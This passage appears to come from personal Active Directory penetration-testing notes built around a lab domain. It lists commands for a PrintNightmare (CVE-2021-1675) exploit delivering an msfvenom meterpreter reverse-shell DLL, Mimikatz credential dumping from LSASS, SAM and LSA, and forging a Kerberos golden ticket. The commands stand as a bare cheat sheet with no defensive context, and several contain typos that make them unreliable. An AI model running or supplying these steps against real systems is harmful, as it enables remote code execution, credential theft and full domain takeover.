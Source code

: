     smbserver.py share 'pwd' -smb2support
    msfvenon -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f dll > shell.dll
    
    python3 CVE-CVE-2021-1675.py marvel.local/fcastle:password@192.168.1.1 '\\192.168.1.1\share\shell.dll'
    ```
    
    [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
    
    [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)
    
- Mimikatz
    
    ```bash
    https://github.com/gentilkiwi/mimikatz
    mimikatz.exe
    mimikatz
    privilege::debug
    sekurlsa::logonpasswords
    lsadump::sam /patch
    lsadump::sam
    lsadump::lsa /patch
    ntds.dit
    
    ```
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%2011.png)
    
- Golden Tiket
    
    ```bash
    mimikatz.exe
    privilege::debug
    lsadump::lsa /inject /name:castle+
    kerberos::golden /User:Administrator /domain:marvel.local /sid: /krbtgt: /id:500 /ptt
    misc::cmd
    